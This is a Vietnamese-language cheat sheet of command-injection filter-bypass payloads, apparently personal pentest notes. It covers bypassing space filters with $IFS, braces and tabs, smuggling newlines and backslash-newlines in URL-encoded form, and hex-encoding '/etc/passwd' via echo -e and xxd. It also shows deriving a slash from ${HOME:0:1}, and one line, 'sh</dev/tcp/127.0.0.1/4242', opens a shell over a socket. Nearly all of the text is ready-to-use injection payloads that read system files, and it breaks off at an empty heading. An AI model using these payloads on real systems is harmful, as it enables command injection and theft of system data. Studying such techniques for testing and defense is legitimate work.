 # Blackbox testing 

## Bypass space

Linux only

dùng `<`

- `cat</etc/passwd`

dùng {,}

- `{cat,/etc/passwd}`

dùng $IFS 

- `cat$IFS/etc/passwd`

dùng ${IFS} kết hợp với các toán tử logic

- `echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd`

sử dụng gán toán tử kết hợp với mã hóa kí tự space thành `\x20` trong hex

- `X=$(uname\x20-a)&&$x` hoặc `X=$'uname\x20-a'&&$X`

thiết lập 1 kết nối shell đến một cổng mở bất kì

- `sh</dev/tcp/127.0.0.1/4242`

> ${IFS} là biến môi trường được sử dụng để xác định ký tự phân tách được sử dụng để tách các phần của một lệnh hoặc đối số. Giá trị mặc định của biến này là một khoảng trắng, tab hoặc ký tự xuống dòng. Tuy nhiên nó có thể được đặt thành bất kỳ ký tự nào khác.

thực hiện command bằng bash script mà không cần đến `space,$,{}`

- IFS=,;\`cat<<<uname,-a\`

có thể sử dụng tab thay thế space trong một số trường hợp

- `cat%09/etc/passwd`

Windows only

```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

## Bypass with a line return

- `something%0Acat%20/etc/passwd`

- `cat > /tmp/hi << EOF%0ahello%0aEOF`

> Ở đây cú pháp `<<EOF` là một dạng `here document` trong shell scripting, cho phép người dùng nhập nội dung trực tiếp từ dòng lệnh. Phần kết thúc của chuỗi này chính là kí tự `EOF`.

## Bypass with backslash newline

```
cat /et\
c/pas\
swd
```

URL encoded sẽ là: `cat%20/et%5C%0Ac/pa%5C%0Asswd`

## Bypass characters filter via hex encoding

 Ta có thể sử dụng lệnh echo -e để trong cú pháp truyền vào có thể sử dụng các loại mã hóa như `\n` là xuống dòng, `\t` là tab.

```shell
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64" (/etc/passwd)

cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`

abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc

`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`

```

Ta cũng có thế sử dụng hexdump kết hợp xxd:

```shell
#Cach 1
    xxd -r -p <<< 2f6574632f706173737764 (/etc/passwd)
    cat `xxd -r -p <<< 2f6574632f706173737764` 
#Cach 2
    xxd -r -ps <(echo 2f6574632f706173737764) (/etc/passwd)
    cat `xxd -r -ps <(echo 2f6574632f706173737764)`

# -r la reverse tu kieu hex ve dang ASCII 
# -p la input dua vao duoi dang hexdump khong co bat ky ki tu xuong dong hay ki tu ACSII
# <() o day thay the cho viec su dung output cua command nhu mot tap tin
# -ps chuyen input thanh hexa khong co them mot dinh dang bo sung nao
```

## Bypass character filter

Nếu ta bị filter mất dấu `/` thì ta có thể sử dụng một số cách sau: 

```shell
# Cach 1
    echo ${HOME:0:1}
    cat `echo ${HOME:0:1}etc${HOME:0:1}passwd` (/etc/passwd)

# Explain: Command ${HOME:0:1} sử dụng lệnh mở rộng của bash shell. 
#   - HOME chính là biến môi trường của Linux
#   - 0 đánh dấu điểm bắt đầu lấy của string mới
#   - 1 là số kí tự lấy bắt đầu từ điểm đã đánh dấu
# Ở đây biến HOME thường chứa đường dẫn home tạo sẵn của người dùng. Thông thường sẽ là /home/user. Vậy nếu command trên được thực thi thì nó sẽ lấy được kí tự / xuất hiện đầu tiên trong đường dẫn.

# Cach 2
    
```



